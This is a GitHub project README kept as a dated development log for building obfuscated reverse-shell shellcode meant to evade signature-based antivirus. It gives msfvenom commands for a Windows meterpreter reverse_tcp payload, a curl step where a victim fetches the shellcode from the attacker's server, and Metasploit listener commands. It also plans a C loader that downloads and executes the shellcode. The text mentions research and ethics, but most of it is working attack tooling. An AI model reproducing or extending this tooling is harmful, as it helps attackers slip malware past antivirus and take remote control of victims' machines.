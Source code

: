 # reverse-shell
Obfuscated reverse-shell shellcode aimed to bypass signature-based antivirus algorithms.

# 10/16/2024
Russell:

  uploaded payload-revshell-8448.exe
  
  uploaded shellcode-tcp-8448-c

      payload-revshell-8448.exe is a WORKING windows executable which connects to the attacker listening! It was compiled using msfvenom.
    the only down side is that it is easily detectable by antivirus (that is a good thing ethically- obviously)
    
      But we want to expose a day0 trojan.... so we still need to obfuscate the shellcode version of this exe that was compiled by msfvenom
    (see shellcode-tcp-8448-c.txt)

    This executable works so then we should be able to execute this shellcode.
  
  Steps needed in the main c program:
  
      - Download shellcode payload (HTTP GET REQUEST) OR use shellcode-tcp-8448-c.txt file in repo
      
      - parse shellcode properly:
          - there should be no Null bytes (0x00), Line feeds (0x0A), carriage returns (0x0D), or Form feeds (0x0C)
          - only the shellcode instructions stored into char* memBuffer. 
          - then, loop through memBuffer[] and save contents as hexidecimal machine code to the dynamically 
              allocated unsigned char shellcode[]
              
      - execute machine code within shellcode[]

  Uploaded main.cpp

    Right now, the main.cpp downloads the shellcode, converts it to dynamic allocated memory that is reconizable to the system as hexidecimal instructions , and prints the the converted shellcode.
    
  Here is the shellcode before conversion:
  
  ![Before](payload-before-conversion.png)

  Here is the shellcode after conversion:
  
  ![After](payload-after-conversion-raw.png)


    We still need to figure out how to execute this shellcode so that it connects the user to the attacker.


  # 10/15/2024
  To-do: create a c program to download the shellcode and execute it. 
  
      Russell:
          Check out this code generated by chatGPT:     https://chatgpt.com/share/670ecd31-e6f4-8007-975a-aa463a4bbc49
           It lays the foundation for what we are attempting to do. It has not been tested thoroughly but is a good reference
           to the steps required for the program executable.



# 10/14/2024:
    
    Russell:
      - created GitHub repo and uploaded the research paper as well as our proposal.
      - created and uploaded payload-22.c

  To create a payload (using kali):
            
      $msfvenom -p windows/meterpreter/reverse_tcp lhost={IP of attacker} lport={port #} --format c -o payload-22.c -b "\x00\x0A\x0\x0C\x0D"
      
  To download the shellcode as a victim via web server:
    
      $curl {your http web server}/download.php > payload-22.txt
      
  Attacker must have Metasploit installed in order to listen for the victim's connection on a port.  
      To download the metasploit installer:
      
      $curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
      $chmod 755 msfinstall
      $./msfinstall
      $sudo msfconsole
      

  To run a listener on attackers machine:
      
      $msfconsole
      $use exploit/multi/handler
      $set PAYLOAD windows/x64/meterpreter/reverse_tcp
      $set LHOST your_ip
      $set LPORT 4444
      $exploit
      

  Once the victim has executed the reverse shell, the attacker will see "Meterpreter session 1 opened." Lastly, the
      attacker enters the following command to enter the shell of the victim:
      
      $shell



  For a broad video explanation watch the following youtube video:
      https://www.youtube.com/watch?v=17JontiMrWQ


      

  

    
